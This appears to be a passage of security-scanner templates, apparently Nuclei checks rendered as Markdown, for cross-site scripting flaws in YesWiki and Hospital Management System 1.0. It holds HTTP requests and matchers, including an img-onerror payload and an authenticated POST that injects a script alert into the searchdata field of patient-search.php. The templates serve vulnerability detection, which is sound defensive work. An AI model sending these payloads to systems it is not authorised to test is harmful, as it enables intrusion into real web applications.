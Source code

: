 ### Step - 2

```
GET /?BazaR&vue=consulter HTTP/1.1
Host: {{Hostname}}

```

### Matchers

**Type - dsl**

- dsl
  1. contains(all_headers_2, 'text/html') && contains(all_headers_2, 'YesWiki')
  2. status_code_2 == 200
  3. contains(body_2, '>\<img src=x onerror=console.log(123);>')
- condition - and

---

# Hospital Management System 1.0 - Cross-Site Scripting

## Description

- Hospital Management System 1.0 contains a cross-site scripting vulnerability via the searchdata parameter in patient-search.php.

- severity - high
- tags - hms,hospital,cms,xss,authenticated

## Requests

### Step - 1

```
POST /hms/admin/ HTTP/1.1
Host: {{Hostname}}
Content-Type: application/x-www-form-urlencoded

username={{username}}&password={{password}}&submit=

```

### Step - 2

```
POST /hms/admin/patient-search.php HTTP/1.1
Host: {{Hostname}}
Content-Type: application/x-www-form-urlencoded

searchdata=%3Cscript%3Ealert%28document.domain%29%3C%2Fscript%3E&search=

```
